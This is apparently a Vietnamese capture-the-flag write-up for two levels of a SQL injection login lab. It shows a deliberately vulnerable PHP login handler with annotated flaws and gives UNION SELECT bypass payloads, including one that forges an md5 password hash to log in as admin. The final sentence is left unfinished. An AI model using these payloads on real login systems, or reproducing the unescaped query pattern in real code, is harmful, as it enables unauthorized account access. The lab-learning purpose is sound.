


# Level 4:

```
username=/&password=) union select 'admin' #
```

# Level 5:

```php
<?php
function loginHandler($username, $password)
{
	try {
		include("db.php");
		$database = make_connection("hashed_db");

		$sql = "SELECT username, password FROM users WHERE username='$username'"; // <- 1. untrusted data + không escape
		$query = $database->query($sql);      // <- 2. dùng query trên để truy vấn xuống DB
		$row = $query->fetch_assoc();         // <- 3. fetch_assoc() để lấy dòng đầu tiên -> lưu RAM (ở đây là bug vì lưu ram có thể manipulate được)

		if ($row === NULL)
			return "Username not found";

		$login_user = $row["username"];
		$login_password = $row["password"];

		if ($login_password !== md5($password))    // <- 4. bước này kể cả có check, cũng chỉ check RAM, nên ta có thể thay đổi giá trị password hash mong muốn
			return "Wrong username or password";

		if ($login_user === "admin")
			return "Wow you can log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}, but how about <a href='level6.php'>THIS LEVEL</a>!";
		else
			return "You log in as $login_user, but then what? You are not an admin";
	} catch (mysqli_sql_exception $e) {
		return $e->getMessage();
	}
}
```
- Có 3 yếu tố khiến đoạn code lỗi:
1. untrusted data nẳm ngay câu query mà không hề sanitize
2. input được xem là một phần của câu query (attacker đè dấu nháy đơn vô là đóng được chuỗi rồi thực thi lệnh ở sau)
3. lấy username và password từ db xong lưu lên RAM một cách ngây thơ, từ đó attacker thay đổi được chuỗi password hash đó bằng chính việc escape ra khỏi yếu tố 1 rồi ghi đè lên password = md5(123)
```
username=' UNION SELECT 'admin', md5('123') -- &password=123
```
- Ở đây có thể thấy được password gốc là 

- PoC rằng sau khi làm giả md5 hash có thể thấy password đã thay đổi theo đoạn string mà ta mong muốn
